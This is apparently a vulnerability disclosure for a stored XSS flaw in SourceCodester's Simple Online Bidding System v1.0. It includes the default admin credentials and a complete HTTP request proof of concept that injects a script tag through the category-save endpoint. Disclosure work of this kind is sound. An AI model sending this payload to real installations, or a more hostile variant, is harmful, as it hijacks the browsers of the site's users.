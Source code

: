 XSS vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=categories

related code file：admin_class.php

related_function：save_category()

#### 1.Vulnerability analysis

The `save_category()` function in `admin_class.php` receives category-related parameters via POST without validating or escaping the incoming parameters. It directly concatenates these parameters into the SQL `insert` statement, which allows attackers to insert malicious script statements and execute XSS attacks.

![image1](https://github.com/pijiawei/CVE/blob/pijiawei-photo/image1.png)

#### 2.Vulnerability verification and exploit

We need log in to the system backend as admin/admin123.The exploit proof-of-concept (PoC) for this vulnerability is as follows. When using it, you need to modify the relevant address information in the PoC according to the target environment, such as the host and refer fields.

```
POST /admin/ajax.php?action=save_category HTTP/1.1
Host: 10.15.6.184:81
Content-Length: 254
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1k9MfksQcNnRazPp
Origin: http://10.15.6.184:81
Referer: http://10.15.6.184:81/admin/index.php?page=categories
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=vvku8vnm5dicgigog9a9tc6p41
Connection: close

------WebKitFormBoundary1k9MfksQcNnRazPp
Content-Disposition: form-data; name="id"


------WebKitFormBoundary1k9MfksQcNnRazPp
Content-Disposition: form-data; name="name"

xss<script>alert(111)</script>
------WebKitFormBoundary1k9MfksQcNnRazPp--

```

After successfully executing the PoC, you can observe that the malicious pop-up has occurred on the Home page accessible to regular users, indicating a successful XSS attack.

![image-20240523192652221](SourceCodester Simple Online Bidding System CSRF-2.assets/image-20240523192652221.png)

